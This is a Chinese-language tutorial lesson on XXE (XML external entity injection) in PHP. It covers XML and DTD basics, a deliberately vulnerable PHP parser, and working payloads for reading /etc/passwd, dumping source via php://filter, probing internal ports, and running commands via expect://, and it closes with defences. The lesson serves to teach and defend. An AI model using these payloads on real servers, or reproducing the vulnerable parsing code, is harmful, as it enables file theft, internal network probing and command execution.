# 课程 P1-48：揪出潜伏的源码泄露真凶——XXE（XML外部实体注入）危害解析 🕵️♂️




在本节课中，我们将要学习一个名为XXE（XML外部实体注入）的漏洞。这个漏洞虽然出现已久，但因其危害性高，成功跻身2017年OWASP Top 10榜单。我们将从基础概念讲起，逐步解析其成因、利用方式以及潜在危害，并通过简单的示例帮助初学者理解。

## 概述：什么是XXE？

XXE，全称XML External Entity Injection，即XML外部实体注入。它主要发生在应用程序解析XML输入时，没有禁止或过滤外部实体的加载。攻击者可以利用这一点，构造恶意的XML数据，导致读取任意文件、执行系统命令、探测内网等严重后果。

上一节我们介绍了课程的整体目标，本节中我们来看看XXE漏洞的成因和所需的基础知识。


## 第一部分：漏洞成因与基础知识






要理解XXE，首先需要了解一些XML和PHP协议的基础知识。这些内容是后续构造攻击载荷（Payload）的基石。

### XML基础

以下是构造XXE攻击载荷必须用到的三个XML基础概念：

1.  **XML声明**：用于声明文档为XML，并指定版本和编码。
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    ```
2.  **内部DTD（文档类型定义）**：用于定义XML文档的结构和合法元素。
    ```xml
    <!DOCTYPE 根元素名 [元素声明]>
    ```
3.  **外部实体声明**：这是XXE攻击的核心，用于引入外部资源。
    ```xml
    <!ENTITY 实体名 SYSTEM "URI/URL">
    ```

一个简单的包含外部实体的XML结构如下：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<root>&test;</root>
```
当XML解析器处理此文档时，会尝试加载并解析外部实体 `&test;`，从而读取系统文件。

### PHP相关协议

在PHP环境中，我们主要利用其支持的包装器协议来实施攻击。了解这些协议的功能是成功利用XXE的关键。

以下是PHP支持的部分协议及其在XXE中的常见用途：


*   **file://**：用于读取服务器上的文件。
*   **php://filter**：一种元封装器，用于在数据流打开时应用过滤器。常与`base64`编码结合，用于读取PHP等源码文件，避免解析错误。
*   **http://**：用于发起HTTP请求，可用来探测内网服务和端口。
*   **expect://**：用于处理交互式的流，可用来执行系统命令（但需要额外安装扩展，较少见）。

上一节我们铺垫了XML和协议的基础，本节中我们将进入实战，看看如何利用这些知识进行漏洞测试。

## 第二部分：XXE漏洞的危害与测试

我们将在一个模拟的PHP测试环境中，演示XXE漏洞的几种主要危害。测试环境为Ubuntu系统，使用PHP和Nginx。

### 1. 任意文件读取





这是XXE最直接的一种利用方式。通过`file://`协议，我们可以尝试读取服务器上的敏感文件。




首先，我们来看一个存在漏洞的PHP代码示例：
```php
<?php
$xml = $_POST[‘c’];
$data = simplexml_load_string($xml);
echo $data;
?>
```
这段代码直接解析用户传入的XML数据并输出。


**测试步骤：**
1.  判断站点是否解析XML：我们传入一个简单的XML测试数据。
    ```xml
    <?xml version="1.0"?>
    <user>admin</user>
    ```
    如果回显是`admin`，说明XML被成功解析。
2.  构造读取文件的Payload：利用`file://`协议。
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE a [
    <!ENTITY test SYSTEM "file:///etc/passwd">
    ]>
    <root>&test;</root>
    ```
    提交后，如果成功，将会看到`/etc/passwd`文件的内容。

**局限性**：需要知道文件的绝对路径。对于Linux系统，常见路径相对固定；对于Windows系统则较难猜测。

直接使用`file://`协议读取PHP文件可能会因为`<?php ?>`标签导致XML解析错误。此时，我们需要使用`php://filter`协议。

### 2. 使用php://filter读取源码



`php://filter/read=convert.base64-encode/resource=`协议可以将目标文件内容以Base64格式输出，从而绕过XML解析问题。


以下是读取PHP源码的Payload示例：
```xml
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY test SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php">
]>
<root>&test;</root>
```
提交后，会得到一串Base64编码的数据，解码后即可获得网站的PHP源代码。这可能导致严重的源码泄露。

### 3. 内网探测与SSRF


XXE也可以被用来探测服务器所在的内网环境，这本质上是一种盲目的SSRF（服务器端请求伪造）。






通过`http://`协议，我们可以让服务器向内部网络发起请求。



以下是相关的测试Payload：


*   **探测端口开放情况**：
    ```xml
    <!ENTITY test SYSTEM "http://127.0.0.1:3306/">
    ```
    如果MySQL端口（3306）开放，请求可能会成功或超时；如果端口关闭，可能会快速返回连接错误。通过观察响应时间或错误信息可以判断端口状态。
*   **探测内网文件或目录**：
    ```xml
    <!ENTITY test SYSTEM "http://127.0.0.1/images/">
    ```
    通过HTTP状态码（如200、403、404）可以判断目录或文件是否存在。

### 4. 命令执行

在极少数情况下，如果PHP环境安装了`expect`扩展，可以利用`expect://`协议执行系统命令。



Payload示例：
```xml
<!ENTITY test SYSTEM "expect://id">
```
执行后会返回命令`id`的结果。但该扩展默认不安装，且命令中不能包含空格，利用条件苛刻。


上一节我们探讨了XXE的主要攻击方式，本节中我们来看看在利用过程中需要注意的一些细节和防御思路。

## 第三部分：注意事项与防御

### 利用注意事项

*   **GET请求与URL编码**：如果漏洞点通过GET请求传递XML参数，需要将整个Payload进行URL编码。因为`&`符号在URL中是参数分隔符，不编码会导致Payload被截断。
*   **无回显的XXE（Blind XXE）**：很多时候，服务器解析了外部实体但不会将结果直接输出。此时需要利用参数实体、DNS查询或HTTP请求外带数据等方式进行盲测，本次课程未深入展开。


### 如何防御XXE

XXE漏洞的根源在于XML解析器配置不当。以下是一些主要的防御方案：

1.  **禁用外部实体**：这是最直接有效的方法。在PHP中，可以通过设置`libxml_disable_entity_loader(true);`来禁用外部实体加载。对于其他语言（如Java），也有相应的解析器安全配置选项。
2.  **使用白名单验证**：对用户输入的XML数据进行严格的格式和内容检查。
3.  **升级XML处理库**：使用新版本的XML解析库，通常它们会有更严格的安全默认配置。

## 总结



本节课中我们一起学习了XXE（XML外部实体注入）漏洞。我们从XML基础知识和PHP协议讲起，逐步分析了XXE的成因。通过实战演示，我们看到了XXE漏洞可能导致**任意文件读取、源码泄露、内网探测**甚至**命令执行**等严重危害。最后，我们也了解了防御XXE的核心在于**禁用XML解析器的外部实体加载功能**。


希望本教程能帮助你理解这个潜伏在XML解析过程中的安全风险。